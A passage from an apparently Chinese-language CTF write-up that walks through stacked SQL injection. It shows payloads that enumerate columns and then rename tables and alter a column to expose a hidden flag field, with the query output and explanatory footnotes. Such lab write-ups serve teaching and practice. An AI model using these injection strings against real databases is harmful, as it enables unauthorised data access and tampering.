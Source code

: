    ```javascript
     [1]=>
     string(11) "varchar(20)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   
   ```

   输入

   ```sql
   1'; show columns from `1919810931114514`; #
   ```

    字段使用的是反勾号（ ` ）

   ```javascript
   array(6) {
     [0]=>
     string(4) "flag"
     [1]=>
     string(12) "varchar(100)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   ```

   可以看到`1919810931114514`中有我们想要的`flag`字段

   

   **==突破点==**

    

   **他既然没过滤 alert 和 rename，那么我们是不是可以把表改个名字，再给列改个名字呢。
    先把 words 改名为 words1，再把这个数字表改名为 words，然后把新的 words 里的 flag 列改为 id （避免一开始无法查询）。**

   ```sql
   1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
   ```

   运行完这个 表的结构就改好了 下一步就是永真查询 (参考文章中 他这一步写错了)


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入